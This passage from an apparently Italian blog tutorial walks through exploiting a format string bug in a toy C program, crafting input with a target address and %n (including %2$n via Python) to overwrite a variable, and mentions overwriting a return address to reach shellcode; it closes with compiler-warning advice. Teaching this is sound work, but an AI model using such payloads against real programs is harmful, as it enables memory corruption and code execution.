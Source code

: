 <p>Quella x lì sopra ci rovina un po' i nostri piani (certo, si potrebbe andare indietro e invertire le righe che definiscono x e buf nel programma C...). In definitiva, per il momento ci accontentiamo, facciamo finta di volere stampare anche x, per fare in modo di toglierlo dalla pila senza grossi problemi.</p>
<p>Inserire l'indirizzo di x sullo stack è leggermente più problematico perché:</p>
<ul>
<li>bisogna ricordarsi l'endianness.</li>
<li>sapere l'indirizzo di x (==&gt; l'abbiamo; non è sempre così semplice)</li>
<li>convertire i byte dell'indirizzo in caratteri</li>
</ul>
<p>Allora siamo a posto. Per comodità salviamo la stringa da dare in ingresso al programma su file (e poi useremo `cat`).</p>
<pre>$ echo -e '\x40\xfa\xff\xbf%d%n' &gt; in
$ ./p `cat in`
buffer = ... 
x = 5 (0xbffffa40)</pre>
<p>Bingo! Non ci piace tanto il fatto che dobbiamo aggiungere il %d, perché ci toglie un po' di controllo sulla stringa. Infatti ora lo elimineremo.</p>
<p>Ritorna $. Tramite $ possiamo stabilire che valore prendere dallo stack: aiutandoci con lo schema di sopra, vediamo che in questo caso serve il secondo.<br />
Purtroppo il terminale non funziona molto bene quando entrano $ nella stringa, quindi dobbiamo usare una altra strada, e apriamo python.  (Nota, neanche usare `perl -e` o `python -c` funziona)</p>
<pre>$ python
Python 2.7.3 [...]
&gt;&gt;&gt; f = open('in', 'wb')
&gt;&gt;&gt; f.write('\x40\xfa\xff\xbf%2$n')
&gt;&gt;&gt; f.close()
&gt;&gt;&gt; quit()
$ ./p `cat in`
buffer = ...
x = 4 (0xbffffa40)</pre>
<p>Molto più elegante. Ok, ci sono un paio di problemi nel nostro approccio:</p>
<ul>
<li>L'indirizzo non deve contenere il byte 0 (e gli indirizzi su 64 bit contengono tanti 0).</li>
<li>Scriviamo il numero di caratteri stampati, e non un generico intero. Questo può essere risolto. Ma vi lascio solo un indizio: ricordate che prima parlavo di 'fill'?</li>
</ul>
<h2>E allora?</h2>
<p>Effettivamente l'esempio fatto è piuttosto noioso, ma vengono subito in mente due utilizzi più interessanti:</p>
<ul>
<li>Modificare delle variabili utilizzate piu' avanti nel codice.</li>
<li>Sovrascrivere un indirizzo di ritorno, per farlo puntare ad uno shellcode (o ad altra zona di memoria che controlliamo)</li>
</ul>
<h2>Finale</h2>
<p>Cosa abbiamo imparato oggi:</p>
<ul>
<li>La pigrizia non paga</li>
<li>Con un po' di tempo libero e una stringa potete trasformare un semplice errore di un programmatore in una notizia da prima pagina.</li>
<li>Quando avete problemi, gdb spesso fornisce una soluzione.</li>
<li>Aggiungete sempre varie opzioni del vostro compilatore: sempre meglio abbondare, non si sa mai.</li>
<li>E, abilitate sempre i warning: almeno -Wformat, -Wformat-security, -Wformat-nonliteral, oltre al classico -Wall</li>
</ul>
<p style="text-align: right;"><em>Much learning doth make thee mad.</em><br />
<em>    Acts, XXVI. 24.</em></p>
